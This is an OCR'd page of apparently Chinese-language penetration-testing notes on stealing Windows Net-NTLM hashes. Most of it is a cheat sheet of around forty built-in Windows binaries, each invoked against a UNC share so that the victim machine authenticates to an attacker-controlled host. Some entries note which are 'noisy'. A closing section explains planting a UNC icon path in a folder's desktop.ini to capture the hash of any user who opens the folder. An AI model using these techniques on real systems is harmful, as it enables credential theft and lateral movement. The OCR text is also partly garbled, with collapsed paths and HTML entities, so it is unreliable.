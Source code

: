 ```
&gt; net.exe use \hostshare 
&gt; attrib.exe \hostshare  
&gt; bcdboot.exe \hostshare  
&gt; bdeunlock.exe \hostshare  
&gt; cacls.exe \hostshare  
&gt; certreq.exe \hostshare #(noisy, pops an error dialog) 
&gt; certutil.exe \hostshare  
&gt; cipher.exe \hostshare  
&gt; ClipUp.exe -l \hostshare  
&gt; cmdl32.exe \hostshare  
&gt; cmstp.exe /s \hostshare  
&gt; colorcpl.exe \hostshare #(noisy, pops an error dialog)  
&gt; comp.exe /N=0 \hostshare \hostshare  
&gt; compact.exe \hostshare  
&gt; control.exe \hostshare  
&gt; convertvhd.exe -source \hostshare -destination \hostshare  
&gt; Defrag.exe \hostshare  
&gt; diskperf.exe \hostshare  
&gt; dispdiag.exe -out \hostshare  
&gt; doskey.exe /MACROFILE=\hostshare  
&gt; esentutl.exe /k \hostshare  
&gt; expand.exe \hostshare  
&gt; extrac32.exe \hostshare  
&gt; FileHistory.exe \hostshare #(noisy, pops a gui)  
&gt; findstr.exe * \hostshare  
&gt; fontview.exe \hostshare #(noisy, pops an error dialog)  
&gt; fvenotify.exe \hostshare #(noisy, pops an access denied error)  
&gt; FXSCOVER.exe \hostshare #(noisy, pops GUI)  
&gt; hwrcomp.exe -check \hostshare  
&gt; hwrreg.exe \hostshare  
&gt; icacls.exe \hostshare   
&gt; licensingdiag.exe -cab \hostshare  
&gt; lodctr.exe \hostshare  
&gt; lpksetup.exe /p \hostshare /s  
&gt; makecab.exe \hostshare  
&gt; msiexec.exe /update \hostshare /quiet  
&gt; msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
&gt; mspaint.exe \hostshare #(noisy, invalid path to png error)  
&gt; msra.exe /openfile \hostshare #(noisy, error)  
&gt; mstsc.exe \hostshare #(noisy, error)  
&gt; netcfg.exe -l \hostshare -c p -i foo
```

#### 通过系统图标

每个文件夹底下都有个文件desktop.ini来指定文件夹图标之类的，默认不可见，可以通过在控制面板中去掉"隐藏受保护的操作系统文件"看到

每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到desktop.ini，可以尝试更改图标，就可以看到了

之后将图标路径改成UNC路径，指向我们的服务器

当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm hash：
